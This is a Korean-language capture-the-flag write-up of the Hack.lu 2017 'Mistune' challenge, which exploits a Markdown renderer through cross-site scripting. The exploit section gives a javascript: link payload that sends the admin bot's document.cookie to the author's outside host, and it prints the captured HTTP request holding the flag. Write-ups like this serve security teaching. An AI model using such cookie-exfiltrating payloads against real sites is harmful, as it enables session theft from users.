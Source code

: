 # [Crypto] Hacklu 2017 - Mistune

# Description

Markdown parsers are fun. Now click here and steal the cookie!

# Analysis

페이지에 들어가면 Markdown Engine을 테스트하는 페이지가 나온다.

간단하게 `# Hello`를 삽입하면 마크다운 문법이 적용되어 결과가 나온다.

메뉴를 보면 Tester과 Send to Admin이 있다.

Tester는 메인페이지이며, Send to Admin에 들어가면 다음과 같은 정보를 얻을 수 있다.

>  #### Try to steal the cookie!
>
>  -  We use `mistune.Renderer(escape=True, hard_wrap=True)`
>  -  The admin will look at your converted Markdown.
>  -  The admin will click on links (<a>).
>  -  You can check the queue [here](https://mistune.flatearth.fluxfingers.net/queue)

딱 봐도 XSS하라는 문제같다.

여기서 중요한건 admin(bot)은 a 태그를 클릭한다는 점이다.

# Exploit

## Cross Site Script

맨 처음 시도한 방법은 `![x](http://1q2.me:10101)`이며 어드민에게 보내면 잠시 후 다음과 같은 응답값을 받을 수 있다.

```
GET / HTTP/1.1
Host: 1q2.me:10101
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://0.0.0.0/checkit
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8
```

어...쿠키값이 없다.

그렇다면 `document.cookie`를 이용해보자.

```markdown
<javascript:location.href=`http://1q2.me:10101/?`+document.cookie>
```

위의 스크립트를 어드민에게 전송하면 잠시 후 다음과 같은 응답 값을 받는다.

```
GET /?Admin=flag{92da883eb1df9d1287ff25f1a1099f29} HTTP/1.1
Host: 1q2.me:10101
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://0.0.0.0/checkit
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8
```

오 쿠키가 정상적으로 전송되서 플래그를 얻었다.

~~뭔가 다른 풀이도 많을 것 같은데, 이참에 마크다운 XSS를 수집해야겠다.~~



**flag{92da883eb1df9d1287ff25f1a1099f29}**